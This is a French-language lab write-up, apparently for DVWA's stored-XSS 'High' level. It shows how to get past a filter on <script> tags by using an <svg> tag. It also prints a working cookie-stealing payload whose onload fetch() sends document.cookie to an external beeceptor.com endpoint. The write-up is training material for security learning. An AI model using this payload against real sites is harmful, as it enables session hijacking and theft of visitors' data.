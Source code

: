 # Niveau "High"

Ici contrairement au niveau "Medium", le champ "Name" semble posséder un filtrage plus fort que le champ "Message" car plus rien ne s'affiche mis à part un malheureux petit chevron `">"` :

![](../../../../.gitbook/assets/2448376e94cf4ccfb07b40a5ca550901.png)

Si le filtrage s'effectue seulement sur les balises `<script>` `</script>`, il est fort probable que la balise `<svg>` soit toujours utilisable :

![](../../../../.gitbook/assets/1c414ec534804f56590077f87b46f6a6.png)

C'est bien le cas, on ajoute notre payload de vol de cookies :

```markup
<svg onload="fetch('https://dvwaxssrefl.free.beeceptor.com?cookie=' + document.cookie);">
```

![](../../../../.gitbook/assets/93fdbc43b069de2a852b36435ee8ef1e.png)

Lorsqu'un visiteur lira le message, notre serveur malicieux listera les cookies reçues :

![](../../../../.gitbook/assets/6ac757d465641780b382d68c799f214f.png)

